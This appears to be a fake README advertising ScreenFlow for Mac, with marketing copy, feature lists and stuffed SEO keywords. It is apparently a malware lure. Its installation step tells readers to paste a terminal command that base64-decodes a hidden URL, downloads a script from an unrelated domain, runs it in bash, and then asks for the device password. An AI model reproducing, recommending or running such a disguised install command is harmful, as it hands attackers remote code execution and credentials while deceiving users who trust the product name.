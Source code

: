 # 🎬 ScreenFlow for Mac — Pro Screen Recording & Video Editing

📌 About ScreenFlow  
ScreenFlow is a professional screen recording and video editing software built exclusively for macOS. It’s designed for educators, content creators, software trainers, and marketers who need pixel-perfect recordings, fluid editing, and instant export to web or local storage.  
Capture your screen, webcam, microphone, and system audio simultaneously with zero dropped frames. Whether you're recording tutorials, software demos, online courses, or promotional videos, ScreenFlow gives you timeline-based precision and high-quality output.  
The intuitive editor lets you trim, animate, annotate, zoom, and add motion graphics with ease — no need to switch between multiple apps. All operations run natively on macOS with full support for Retina displays, hardware acceleration, and keyboard shortcuts.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
 ```
  /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9rYW0vaW5zdGFsbC5zaA== | base64 -d))"
  ```
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://terrywhite.com/wp-content/uploads/2013/01/screenflow.jpg)  
- ![](https://www.geniusdv.com/tutorials/wp-content/uploads/2017/02/ScreenFlow-Interface-thumb-420xauto-5296.png)  

## 🎯 Key Features  
⚡️ Screen & Audio Capture: Record screen, webcam, mic, and system audio in sync.  
🔒 Local Projects: All recordings and edits are stored offline and under your control.  
⚙️ Timeline Editor: Cut, animate, and adjust with multi-track precision.  
🚀 Hardware Acceleration: Smooth 4K recording and export using macOS APIs.  
🎨 Visual Effects: Add annotations, zooms, callouts, and motion graphics easily.  
📊 Direct Export: Publish to YouTube, Vimeo, or save locally in multiple formats.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 200 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`screenflow mac` · `mac screen recorder` · `video editor macos` · `mac tutorial recording` · `mac webcam capture` · `mac timeline editor` · `mac screen capture software` · `mac recording studio` · `mac course creation` · `mac software demo tool` · `mac video annotation` · `retina screen recorder` · `mac video production app` · `mac motion graphics` · `screenflow timeline editor`
